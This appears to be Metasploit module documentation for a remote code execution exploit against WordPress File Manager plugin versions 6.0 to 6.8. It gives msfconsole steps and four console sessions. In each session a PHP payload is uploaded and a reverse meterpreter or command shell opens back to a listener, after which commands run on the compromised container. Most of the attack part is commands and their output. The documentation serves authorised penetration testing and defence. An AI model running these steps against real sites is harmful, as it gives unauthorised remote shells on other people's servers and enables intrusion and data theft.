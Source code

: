 ## Vulnerable Application

Get a copy of version 6.0 plugin from https://downloads.wordpress.org/plugin/wp-file-manager.6.0.zip.

Vulnerable versions are 6.0-6.8. Versions below 6.0 are not vulnerable and version 6.9 has been patched.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/wp_file_manager_rce`
3. Do: `set TARGETURI <target_uri>`
4. Do: `set RHOSTS <target_ip>`
5. Optional: Do: `set RPORT <target_port>`
6. Optional: Do: `set PAYLOAD <payload>` to switch payloads
7. Optional: Do: `set COMMAND <command>` to switch elFinder commands used to exploit vulnerability
7. Do: `check` to confirm existence of vulnerability or `exploit` to let the shells rain

## Options

### COMMAND
This vulnerability can be exploited in 2 ways:
1. `upload` to directly upload a payload
2. `mkfile` to create a file, then `put` to write arbitrary code to the newly created file

This option has 2 valid values:
1. `upload`: exploit using the `upload` technique (default)
2. `mkfile+put`: exploit using `mkfile` and `put` 

## Scenarios

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, default payload, using `upload`

```
msf > use exploit/multi/http/wp_file_manager_rce 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Checking /wp-content/plugins/wp-file-manager/readme.txt
[*] Found version 6.0 in the plugin
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/aEiptb.php
[*] Sending stage (39264 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 172.17.0.3:35578) at 2020-10-12 20:19:16 +0800

meterpreter > sysinfo
Computer    : 6fc94cd81e93
OS          : Linux 6fc94cd81e93 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, `php/reverse_php` payload, using `upload`
```
msf exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/wp_file_manager_rce) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Checking /wp-content/plugins/wp-file-manager/readme.txt
[*] Found version 6.0 in the plugin
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/XFVi0d.php
[*] Command shell session 2 opened (192.168.137.128:4444 -> 172.17.0.3:35598) at 2020-10-12 20:20:04 +0800

uname -a
Linux 6fc94cd81e93 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64 GNU/Linux
whoami
www-data
```

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, default payload, using `mkfile+put`
```
msf > use multi/http/wp_file_manager_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/wp_file_manager_rce) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/wp_file_manager_rce) > set COMMAND mkfile+put 
COMMAND => mkfile+put
msf exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Checking /wp-content/plugins/wp-file-manager/readme.txt
[*] Found version 6.0 in the plugin
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/unl8LJ.php
[*] Sending stage (39264 bytes) to 172.17.0.3
[*] Meterpreter session 5 opened (192.168.137.128:4444 -> 172.17.0.3:38076) at 2020-10-15 17:42:00 +0800

meterpreter > sysinfo
Computer    : 6fc94cd81e93
OS          : Linux 6fc94cd81e93 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

### Docker container, WordPress 5.5.1, File Manager plugin version 6.0, default path for File Manager, `php/reverse_php` payload, using `mkfile+put`
```
msf exploit(multi/http/wp_file_manager_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(multi/http/wp_file_manager_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/wp_file_manager_rce) > set PAYLOAD php/reverse_php
PAYLOAD => php/reverse_php
msf exploit(multi/http/wp_file_manager_rce) > set COMMAND mkfile+put 
COMMAND => mkfile+put
msf exploit(multi/http/wp_file_manager_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Checking /wp-content/plugins/wp-file-manager/readme.txt
[*] Found version 6.0 in the plugin
[*] 127.0.0.1:8080 - Payload is at /wp-content/plugins/wp-file-manager/lib/files/DmFEWt.php
[*] Command shell session 6 opened (192.168.137.128:4444 -> 172.17.0.3:38096) at 2020-10-15 17:43:27 +0800

uname -a
Linux 6fc94cd81e93 5.8.0-kali1-amd64 #1 SMP Debian 5.8.7-1kali1 (2020-09-14) x86_64 GNU/Linux
whoami
www-data
```
